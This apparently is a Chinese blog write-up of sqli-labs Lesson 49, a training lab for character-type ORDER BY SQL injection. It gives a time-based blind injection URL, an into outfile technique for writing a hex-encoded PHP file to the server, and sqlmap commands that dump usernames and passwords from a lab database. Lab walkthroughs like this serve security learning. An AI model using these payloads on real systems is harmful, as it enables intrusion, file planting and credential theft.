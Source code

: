 ```yaml
---
title: sqli-labs lession-49 GET-基于错误-字符型盲注-OrderBy注入
date: 2018-11-07 09:05:27
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-49 GET-基于错误-字符型盲注-OrderBy注入

---

## 登录界面

![001](/img/sql/Lesson-49/001.png)

## 分析

一旦遇上字符型,就不是那么好做了,尝试了几种构造方法,发现没有办法构造成布尔型的方式。那么只能采用盲注和into outfile上传。

## 注入

#### into outfile 注入

需要知道路径,使用方式为into outfield "path"加上`lines terminated by 16进制转码的数据`

`<?php phpinfo();?> 对应的16进制 3c3f70687020706870696e666f28293b3f3e2020`

![002](/img/sql/Lesson-49/002.png)

### 时间盲注

`http://10.60.250.142:8082/Less-49/?sort=1' and if((select length(database())=8), sleep(1), null)%23`



![003](/img/sql/Lesson-49/003.png)

有了payload接下来的就可以写个脚本来跑了。

## SQLMAP

`sqlmap -u http://10.60.250.142:8082/Less-49/?sort=1 --technique T --level 2 --risk 2 --dbms mysql --time-sec 2 --flush-session --fresh-queries`

![004](/img/sql/Lesson-49/004.png)

盲注受网络环境影响较大,直接爆字段吧。

`sqlmap -u http://10.60.250.142:8082/Less-49/?sort=1 --technique T --level 2 --risk 2 --dbms mysql --time-sec 2 -D security -T users -C username,password --dump  --flush-session --fresh-queries`

![005](/img/sql/Lesson-49/005.png)

![006](/img/sql/Lesson-49/006.png)


